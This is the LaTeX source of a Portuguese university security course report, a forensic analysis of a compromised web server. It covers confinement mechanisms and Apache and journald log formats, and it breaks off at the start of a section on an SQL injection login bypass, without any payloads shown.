\documentclass[10pt,english]{article}

\usepackage{fourier}

\usepackage[]{graphicx}
\usepackage[]{color}
\usepackage{xcolor}
\usepackage{alltt}
\usepackage{listings}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\setlength{\parskip}{\smallskipamount}
\setlength{\parindent}{5ex}
\usepackage{indentfirst}
\usepackage{listings}
\usepackage{setspace}
\usepackage{hyperref}
\usepackage{url}
\hypersetup{
    colorlinks=true,
    linkcolor=auburn,
    filecolor=magenta,      
    urlcolor=blue, urlsize=2em
}

% Set page margins
\usepackage[top=100pt,bottom=100pt,left=68pt,right=66pt]{geometry}

% Package used for placeholder text
\usepackage{lipsum}

% Prevents LaTeX from filling out a page to the bottom
\raggedbottom


\usepackage{fancyhdr}
\fancyhf{} 
\fancyfoot[C]{\thepage}
\renewcommand{\headrulewidth}{0pt} 
\pagestyle{fancy}

\usepackage{titlesec}
\titleformat{\chapter}
   {\normalfont\LARGE\bfseries}{\thechapter.}{1em}{}
\titlespacing{\chapter}{0pt}{50pt}{2\baselineskip}

\usepackage{float}
\usepackage{verbatim}
\floatstyle{plaintop}
\restylefloat{table}

\usepackage[tableposition=top]{caption}


\definecolor{light-gray}{gray}{0.95}

\renewcommand{\contentsname}{Índice}

\begin{document}


\begin{titlepage}
	\clearpage\thispagestyle{empty}
	\centering
	\vspace{2cm}

	
	{\Large  Segurança Informática e nas Organizações \par}
	\vspace{0.5cm}
	{\small Professor: \\
	João Paulo Barraca\par}
	\vspace{4cm}
	{\Huge \textbf{Análise Forense}} \\
	\vspace{1cm}
	\vspace{4cm}
	{\normalsize Hugo Paiva, 93195 \\ 
	             Luís Valentim, 93989
	   \par}
	\vspace{2cm}

    
\includegraphics[scale=0.20]{logo_ua.png}
    
    \vspace{2cm}
    
	{\normalsize DETI \\ 
		Universidade de Aveiro \par}
		
	{\normalsize 22-01-2020 \par}
	\vspace{2cm}
		
	
	\pagebreak

\end{titlepage}
\tableofcontents{}
\clearpage

\section{Introdução}
\par Este trabalho consiste na análise forense completa de uma máquina na qual foi detectada actividades irregulares.

\par Conhecendo o contexto da situação, sabe-se à partida que se tratava de um sistema com uma série de vulnerabilidades já detectadas previamente, como por exemplo, a possibilidade de \textit{SQL Injection} nos campos de \textit{login}, vulnerabilidades de \textit{Local File Inclusion}, entre outros.

\par Tendo isto em conta, foram identificadas as vulnerabilidades exploradas pelo atacante durante a sequência de ataque e se estas tiveram sucesso, bem como qual o objetivo das mesmas. 
\clearpage

\clearpage

\section{Mecanismos de Confinamento}

\subsection{\textit{Firewall}}
\par A nível de regras de \textit{Firewall}, apesar de não estar claro o que estava implementado, uma vez que as configurações das \textit{iptables} normalmente não são persistentes, pelos pedidos feitos pelo atacante e pela pesquisa pelas configurações das regras da \textit{Firewall} (sem sucesso), caso estas fossem persistentes, não parece que estaria algo implementado.

\par Tendo isto em conta, a \textit{Firewall} poderia ter reconhecido comportamento suspeito bastante mais cedo, nomeadamente através de reconhecimento do \textit{User Agent} e cruzá-lo com uma função de reconhecimento de \textit{sub-stings}, por exemplo o facto da string \textit{Hack} estar contida no \textit{User Agent} seria uma boa razão para desconfiar do cliente. Para além disso, a frequência dos pedidos também foi suspeita, uma vez que pedidos em intervalos de tempo regulares de 10 a 20 segundos, durante mais de 14 minutos e sempre pelo mesmo endereço é um comportamento suspeito.

\subsection{Encriptação}
\par A nível da encriptação de ficheiros, o sistema estava na sua grande maioria desprotegido e sem qualquer tipo de protecção. Considera-se que documentos que tenham informação sensível, para além de não permitirem a leitura por qualquer utilizador poderiam ter sido encriptados com ferramentas como o \textit{EncFS} ou \textit{cryptsetup}.

\subsection{\textit{Containers Docker}}

\par Através da análise dos ficheiros na máquina foi possível verificar que a base de dados \textit{MySQL} estaria a ser executada num \textit{container} \textit{Docker}, uma vez que o \textit{script} de inserção de dados executava comandos dentro de um \textit{container}, o que por si só já representa uma grande mecanismo de confinamento uma vez que a isola totalmente do sistema operativo da máquina, evitando comprometimentos.

\begin{figure}[h]
    \centering
    
\includegraphics[width=225]{images/docker.png}
    \caption{Inserção de dados na base de dados a correr em \textit{Docker}}
\end{figure}

\clearpage



\subsection{\textit{Chroot}}
\par O mecanismo \textit{Chroot}, apesar de não implementado, poderia ter sido utilizado de forma a restringir o acesso a diretórios, ou seja permitir apenas navegação e operações dentro dos diretórios essenciais à aplicação e protegendo os restantes diretórios da máquina, o que iria também limitar consideravelmente as possibilidades de ataque.

\subsection{\textit{AppArmor}}
\par Através de \textit{AppArmor}, como é explicado posteriormente, a máquina limitava aquilo que alguns programas eram capazes de efetuar, sobrepondo-se até à \textit{root}. Apesar disto, este mecanismo apenas estava definido para alguns programas pelo que a sua eficácia era algo limitada.

\clearpage

\section{Sequência de ataque}

\subsection{Análise de \textit{Logs}}

\par Para analisar a atividade do atacante recorreu-se aos diversos \textit{logs} disponíveis na máquina. Para além dos \textit{logs} do sistema como os de autenticação, da kernel ou até os gerados pelo serviço \textit{journald}, os principais \textit{logs} analisados foram os do servidor \textit{Apache}.

\subsubsection{\textit{Apache Access Log}}

\par Os \textit{logs} de acesso do servidor \textit{Apache} guardam informação sobre eventos que ocorreram no servidor, como os acessos feitos ao mesmo.

\begin{figure}[h]
    \centering
    
\includegraphics[width=250]{images/acesslog.png}
    \caption{\textit{Logs} de acesso ao servidor \textit{Apache}}
\end{figure}

\par Como é possível ver através dos \textit{logs} de acesso, foram realizados diversos pedidos ao servidor sendo que o formato dos \textit{logs} apresentados contém:

\begin{itemize}
    \item Endereço IP do cliente
    \item Data do pedido
    \item Método HTTP usado
    \item Caminho do recurso pedido
    \item Protocolo HTTP que o cliente usou
    \item Código de estado retornado pelo servidor
    \item Tamanho do objeto pedido
    \item \textit{User-Agent} - Identificando a aplicação que o cliente utilizou para realizar o pedido
\end{itemize}

\subsubsection{\textit{Apache Error Log}}

\par Os \textit{logs} de erro do servidor \textit{Apache} guardam informação de diagnóstico e registo de erros durante o processamento de pedidos.

\begin{figure}[h]
    \centering
    
\includegraphics[width=250]{images/errorlog.png}
    \caption{\textit{Logs} de erro ao servidor \textit{Apache}}
\end{figure}

\par O formato dos \textit{logs} apresentados contém:

\begin{itemize}
    \item Data do pedido que gerou o erro
    \item Nível da mensagem (erro, aviso...)
    \item \textit{PID} do processo
    \item Endereço IP do cliente
    \item Mensagem de erro
\end{itemize}

\subsubsection{\textit{Logs journald}}

\par Apesar de não possuírem muita informação relevante, tendo em conta a informação que os \textit{logs} anteriores já forneciam, visto que estes \textit{logs} não estavam num formato visível, foi utilizado o comando \textit{journalctl --file <ficheiro\_log>} para ser possível examinar o seu conteúdo.

\clearpage

\subsection{\textit{SQL Injection}}
\subsubsection{Acesso ao administrador}
\par O primeiro passo no processo de ataque à máquina analisada foi o \textit{login} na aplicação que foi conseguido através de tentativa e erro com \textit{SQL Injection} no campo de \textit{login}.

\begin{figure}[h]
    \centering
